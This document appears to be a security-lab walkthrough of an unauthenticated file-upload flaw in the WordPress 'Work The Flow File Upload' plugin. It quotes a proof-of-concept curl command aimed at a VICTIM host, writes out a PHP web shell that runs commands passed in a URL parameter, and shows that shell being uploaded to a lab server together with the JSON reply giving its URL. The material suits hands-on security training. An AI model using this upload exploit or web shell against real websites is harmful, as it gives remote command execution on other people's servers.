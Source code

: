 ```
Multiple file Drag and Drop upload, Image Gallery display, Reordering and Archiving.
This two in one plugin provides shortcodes to embed front end user file upload capability and / or step by step workflow.

######################

# Location :

http://VICTIM/wp-content/plugins/work-the-flow-file-upload/public/assets/jQuery-File-Upload-9.5.0/server/php/index.php📌


######################

# PoC:

curl -k -X POST -F "action=upload" -F "files=@./backdoor.php" http://VICTIM/wp-content/plugins/work-the-flow-file-upload/public/assets/jQuery-File-Upload-9.5.0/server/php/index.php📌

# Backdoor Location:

 http://VICTIM/wp-content/plugins/work-the-flow-file-upload/public/assets/jQuery-File-Upload-9.5.0/server/php/files/backdoor.php


######################

[...]
```

`vim ./shell.php`:
```php
<?php
$output = shell_exec($_GET["cmd"]); 
echo "<pre>$output</pre>";
?>
```

`curl -s -X POST https://k83az1onb5gcoui52hjinmgfc.eu-central-7.attackdefensecloudlabs.com/wp-content/plugins/work-the-flow-file-upload/public/assets/jQuery-File-Upload-9.5.0/server/php/index.php -F 'action=upload' -F 'files=@./shell.php' | jq`:
```json
{
  "files": [
    {
      "name": "shell.php",📌
      "size": 71,
      "type": "application/octet-stream",
      "url": "https://k83az1onb5gcoui52hjinmgfc.eu-central-7.attackdefensecloudlabs.com/wp-content/plugins/work-the-flow-file-upload/public/assets/jQuery-File-Upload-9.5.0/server/php/files/shell%20%281%29.php",                                                                                                                                                                        
      "deleteUrl": "https://k83az1onb5gcoui52hjinmgfc.eu-central-7.attackdefensecloudlabs.com/wp-content/plugins/work-the-flow-file-upload/public/assets/jQuery-File-Upload-9.5.0/server/php/?file=shell%20%281%29.php",                                                                                                                                                                  
      "deleteType": "DELETE"
    }
  ]
}
```
